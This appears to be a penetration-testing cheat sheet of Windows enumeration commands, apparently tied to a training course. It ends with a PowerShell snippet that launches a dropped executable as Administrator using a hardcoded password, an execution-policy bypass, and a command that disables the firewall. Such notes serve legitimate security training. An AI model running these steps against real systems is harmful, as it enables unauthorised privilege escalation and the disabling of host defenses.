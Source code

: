 #### What OS is the target running:
`systeminfo | findstr /B /C:"OS Name" /C:"OS Version"`

#### Hostname
`hostname`

`echo %hostname%`

#### List users on the local machine and query specific username
`net users`

`net user bob`


#### View Network Interfaces and Routing Table
`ipconfig /all`

`route print`

`arp -A`

#### Active Network Connections and Firewall Rules

`netstat -ano`

`netsh firewall show state`

`netsh firewall show config`

#### Running Processes and Scheduled Tasks

`schtasks /query /fo LIST /v`

`tasklist /SVC`

`net start`

`DRIVERQUERY`

`sc query type= service`

`sc qc <SERVICE NAME>`
  
  
`wmic useraccount where name='robert' get sid`


`accesschk.exe -uwdqs Users c:\ /accepteula`



## Powershell Exploit (Page 360 in PWK)

```
$secpasswd = ConvertTo-SecureString "sup3r53cr3tGP0pa55" -AsPlainText -Force
$mycreds = New-Object System.Management.Automation.PSCredential ("Administrator",
$secpasswd)
$computer = "DEV01"
[System.Diagnostics.Process]::Start("C:\Windows\temp\dabbb118.exe","",
$mycreds.Username, $mycreds.Password, $computer)
```

Run this:

> powershell -ExecutionPolicy Bypass -File c:\Windows\temp\run.ps1




netsh firewall set opmode mode=DISABLE
